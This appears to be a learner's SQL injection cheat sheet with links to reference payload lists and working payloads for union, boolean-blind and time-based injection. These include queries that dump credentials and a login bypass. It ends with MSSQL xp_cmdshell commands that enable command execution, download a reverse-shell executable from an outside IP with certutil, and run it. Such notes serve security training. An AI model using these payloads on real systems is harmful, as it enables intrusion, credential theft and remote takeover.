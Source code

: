 
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi

Finding the SQL version:

Oracle           `SELECT banner FROM v$version   SELECT version FROM v$instance   `
Microsoft      `SELECT @@version`
PostgreSQL   `SELECT version()`
MySQL          `SELECT @@version`
SQLite           `SELECT sqlite_version()`

### Basics

id=`2;--`
`' OR 1=1 -- -` obs, not safe as all rows are returned/possibly updated

`something we know works' AND 1=1 --` safer alternative


## Three types
- In-Band - same method to retrieve results
	- Error-Based - errors shown on web page
	- Union-Based
- Blind
- Out-of-Band

### In-Band SQLi

In-Band = the same method of communication used to exploit the vulnerability and receive the results

#### Error-Based

Error-Based = the sql errors shown on web page

try adding ' or " to produce an error

#### Union-Based

Union-Based = uses select union queries

union: Combines several select statements, results must have the <u>same number of columns</u> and the data needs to have a similar data type.

try:
`0 union select 1`
`0 union select 1,2`
`0 union select 1,2,3`
until you find the right number of columns

also make sure `0` does not return actual results or you will only see these

then try to get information about the database:
`0 union select 1,2,database()`   database name

<u>list tables</u> in the database `sqli_one`
`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`

<u>list columns</u> in the table `staff_users`
`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`

<u>list the contents</u> of the table `staff_users`
`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`

group_concat()


### Blind SQLi

#### Authentication example

`select * from users where username='%username%' and password='%password%' LIMIT 1;`

`' OR 1=1;--`

#### Boolean based

a create new account form usually check if the username already exists - we can use this to get other information from the database

imagine the sql being:
`select * from users where username = '%username%' LIMIT 1;`
and the check in the background testing if the query failed or succeeded

then we should use this test for true (data returned from the sql statement) or false = no data, an error?, any error?

if we use a non existent username with a union select + something we want to know if it's returning something

`admin123' UNION SELECT 1;--` gives false, since wrong number of columns
`admin123' UNION SELECT 1,2,3;--` gives true

<u>get database name</u>
`admin123' UNION SELECT 1,2,3 where database() like '%';--`  true
`admin123' UNION SELECT 1,2,3 where database() like 's%';--`  true
`admin123' UNION SELECT 1,2,3 where database() like 'sq%';--`  true
`admin123' UNION SELECT 1,2,3 where database() like 'sqw%';--`  false
`admin123' UNION SELECT 1,2,3 where database() like 'sql%';--`  true

<u>get table name</u>
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'user%';--`

confirm you get the correct name by skipping the like bit like this:
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--`

<u>get column name</u>
`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`

to not get the same hit twice what automating:
`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`

<u>get data</u> like username and password
`admin123' UNION SELECT 1,2,3 from users where username like 'a%`
`admin123' UNION SELECT 1,2,3 from users where username like 'ad%`

`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%`

#### Time-based

we're getting no output, even true/false, so we delay instead

`admin123' UNION SELECT sleep(5);--` gives no delay, since wrong number of columns
`admin123' UNION SELECT sleep(5),2;--` gives a five sec delay since the table has two columns

We can use all of the same queries as with boolean, only adding sleep(n) as one of the column representations

### Out-of-Band

the data collection method is something totally different than the one launching the attack
for example it can be sent to a http/dns server you control






### Stacked Queries

not available in all  systems

`' ; new query here; --`

# Stored procedures and functions

Procedures and functions within a  database  management system.

MSSQL has **xp_cmdshell** that might be used to execute os calls to get rce (remote code execution). (By using EXECUTE  / EXEC to run windows shell commands!!)

Disabled by default! Still common irl. New secure replacement fir example SSIS (SQL Server Integration Services).
Even when disabled, it can be enabled with an EXEC query if the user has the 'sysadmin' role or have the 'alter settings' server level permission.
`'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`

# Upload and execute exploit/rev shell

`'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.18.21.236:8000/win64-reverse.exe C:\Windows\Temp\reverse.exe'; --`
`'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`


